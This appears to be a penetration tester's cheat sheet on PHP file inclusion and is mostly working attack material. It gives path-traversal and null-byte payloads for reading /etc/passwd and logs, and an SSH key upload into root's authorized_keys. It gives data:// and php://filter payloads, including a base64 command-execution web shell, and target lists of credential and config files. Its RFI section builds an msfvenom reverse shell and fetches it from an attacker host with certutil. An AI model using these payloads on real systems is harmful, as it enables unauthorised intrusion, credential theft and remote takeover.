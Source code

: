 # File inclusion

{% code overflow="wrap" %}
```
page=../../../../../../../../../var/log/apache2/access.log
page=../../../etc/passwd%00
page=../../../../../../etc/passwd?
page=../../../../../../etc/passwd%00jpg     
```
{% endcode %}

Can try generating and uploading ssh key:

```sh
ssh-keygen
#produces 2 files, fileup and fileup.pub

cat fileup.pub > authorized_keys
```

File name when uploading file to webapp:

```
../../../../../../../root/.ssh/authorized_keys
```

remove known hosts to avoid errors

```sh
rm ~/.ssh/known_hosts
```

```sh
ssh -p 2222 -i fileup root@mountaindesserts.com
```

## Wrappers

### Data wrappers

{% hint style="danger" %}
data:// wrapper wrill not work by default.

[_allow\_url\_include_](https://www.php.net/manual/en/filesystem.configuration.php) setting needs to be enabled
{% endhint %}

```
file=data:text/plain,helloworld
```

* if returns plaintext 'helloworld' then we can inject code

<pre class="language-php" data-overflow="wrap"><code class="lang-php">file=data:text/plain,&#x3C;?php echo shell_exec("dir") ?>
<strong>
</strong><strong>page=data://text/plain,&#x3C;?php%20echo%20system('ls');?>
</strong></code></pre>

#### Command execution:

Base64 encode payload:

```sh
echo -n '<?php echo system($_GET["cmd"]);?>' | base64
```

Embed and execute the payload:

{% code overflow="wrap" %}
```
page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls
```
{% endcode %}

### Filter wrappers

Access a file with wrappers:

```
page=php://filter/resource=admin.php
```

Base64 econde page:

{% code overflow="wrap" %}
```php
page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd

page=php://filter/convert.base64-encode/resource=admin.php
```
{% endcode %}

Decode:

{% code overflow="wrap" %}
```
echo "{base64_encoded_value}" | base64 -d
```
{% endcode %}

* output may include sensitive info such as database connection creds within the php code etc



## Linux files

```
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hostname
/var/log/apache/access.log
/var/log/apache2/access.log
/var/log/httpd/access_log
/var/log/apache/error.log
/var/log/apache2/error.log
/var/log/httpd/error_log
/var/log/messages
/var/log/cron.log
/var/log/secure
/var/log/auth.log
```

### CMS Config Files

```
WordPress: /var/www/html/wp-config.php
Joomla: /var/www/configuration.php
Dolphin CMS: /var/www/html/inc/header.inc.php
Drupal: /var/www/html/sites/default/settings.php
Mambo: /var/www/configuration.php
PHPNuke: /var/www/config.php
PHPbb: /var/www/config.php
```

## Windows Files

```
C:/Windows/System32/drivers/etc/hosts
C:/Windows/Panther/Unattend/Unattended.xml
C:/Windows/Panther/Unattended.xml
C:/Windows/Panther/Unattend.txt
C:/Unattend.xml
C:/Autounattend.xml
C:/Windows/system32/sysprep
C:/inetpub/wwwroot
C:/inetpub/wwwroot/web.config
C:/inetpub/logs/logfiles
C:/inetpub/logs/LogFiles/W3SVC1
```

### XAMPP Files

```
C:/xampp/apache/conf/httpd.conf
C:/xampp/security/webdav.htpasswd
C:/xampp/apache/logs/access.log
C:/xampp/apache/logs/error.log
C:/xampp/tomcat/conf/tomcat-users.xml
C:/xampp/tomcat/conf/web.xml
C:/xampp/webalizer/webalizer.conf
C:/xampp/webdav/webdav.txt
C:/xampp/apache/bin/php.ini
C:/xampp/apache/conf/httpd.conf
```



### RFI

A good php rev shell that works on linux and windows

{% embed url="https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php?ref=benheater.com" %}

***

Alternate option for Windows:

1. Generate shell payload

{% code overflow="wrap" %}
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=kali_ip LPORT=1234 -f exe > shell.exe 
```
{% endcode %}

2. Upload file to download shell

{% code title="download.php" overflow="wrap" %}
```php
<?php $download = system('certutil.exe -urlcache -f http://kali_ip/shell.exe shell.exe', $val) ?>
```
{% endcode %}

3. Run shell

{% code title="run.php" overflow="wrap" %}
```php
<?php $exec = system('shell.exe', $val) ?>
```
{% endcode %}
